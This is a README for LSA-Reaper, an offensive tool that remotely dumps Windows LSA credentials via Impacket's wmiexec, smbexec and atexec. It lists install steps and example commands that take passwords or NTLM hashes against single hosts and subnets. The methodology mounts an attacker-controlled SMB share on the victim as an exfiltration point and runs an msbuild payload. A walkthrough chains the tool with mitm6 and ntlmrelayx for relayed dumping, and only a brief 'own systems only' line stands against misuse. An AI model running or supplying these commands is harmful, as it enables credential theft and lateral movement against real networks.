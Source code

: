 # LSA-Reaper
<p align="center">
  <img width="400" height="400" src="/assets/lsareaper.png">
</p>

## You are responsible for your own actions use this software on your own systems ONLY!

LSA-Reaper is a command line remote LSA dumping tool that uses [Impacket's](https://github.com/SecureAuthCorp/impacket) wmiexec, smbexec, or atexec.

## Credits

[Marantral](https://github.com/Marantral) for being awesome and helping with MsBuild and RegSvr32 payloads!

## Requirements
```
Linux
Impacket
pip pypykatz
pip netifaces
pip python-nmap
pip Pebble
Samba
```

## Installation
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo python3 -m pip install -r requirements.txt
cd ..
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
sudo python3 setup.py install
```
or
```
git clone https://github.com/samiam1086/LSA-Reaper.git
cd LSA-Reaper
sudo sh setup.sh
```

## Methodology
LSA-Reaper will begin by ping sweeping all provided IPs or IP ranges for alive hosts. LSA-Reaper will then create a SMB share with a random username and password that will act as the exfiltration point. LSA-Reaper will then execute the net use command on the victim machine via wmiexec or atexec to make the victim machine mount the share as a network drive and then execute msbuild to execute the payload which will dump LSA and save it to the mounted SMB share.

## Usage
```
sudo python3 lsa-reaper.py
```
![](/assets/hlp.png)

## Examples
```
sudo python3 lsa-reaper.py domain/user:'Password'@ip

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.100

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.0/24

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@10.0.0.10-200

sudo python3 lsa-reaper.py testdomain/testuser:'P@ssw0rd!'@ipList.txt

sudo python3 lsa-reaper.py testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -hashes 'LMHASH:NTHASH' testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -ip local_ip testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -drive A testdomain/testuser@10.0.0.100

sudo python3 lsa-reaper.py -localauth localuser@10.0.0.100
```

![](/assets/Reaper-Running.png)

![](/assets/example.png)

## Usage with Impacket's ntlmrelayx
First things first you need to run mitm6 and ntlmrelayx

![](/assets/mitm6run.png)

![](/assets/relayrun.png)

Once these are running you should begin to receive connections. These can be checked using the ```socks``` command within ntlmrelayx. Once you have gotten a connection with Admin Status of True you are good to get the ball rolling.

![](/assets/sockconnection.png)

With this connection we no longer need ntlmrelayx gathering connection so we can run the command ```stopservers```

![](/assets/stopservers.png)

Now we need to modify our proxychains.conf in /etc/ (It may be called proxychains4.conf). This is because the ```-socks``` argument on ntlmrelayx starts a socks4 server on local port 1080.

![](/assets/proxychains.png)

With this set and saved we can move to LSA-Reaper.

Run smbexec-modified.py through proxychains. (Note that the domain is not the fqdn which should be testenvironment.local for our example. It MUST be what ntlmrelayx puts for the domain in the socks connections)

When prompted for a password simply press enter.

![](/assets/smbexecrunn.png)

Now run the command ```net use``` to view if any network drives are mounted on the target server. (This is so we can change the drive letter LSA-Reaper uses if the default of Q: is already in use)

![](/assets/netuse.png)

Now startup LSA-Reaper with the -oe flag

![](/assets/runningreaper.png)

Now that LSA-Reaper is running we can begin to execute each command from the large payload individually, (This is a limitation of smbexec and youll lose your shell if you try to run them all at once)

![](/assets/mountshare.png)

![](/assets/msbuild.png)

![](/assets/dismountshare.png)

Now you can press enter to end LSA-Reaper and navigate to the ```loot``` directory within the LSA-Reaper folder and then into the newest loot file. All that is left to do is use pypykatz to dump the DMP file.

![](/assets/dumped.png)
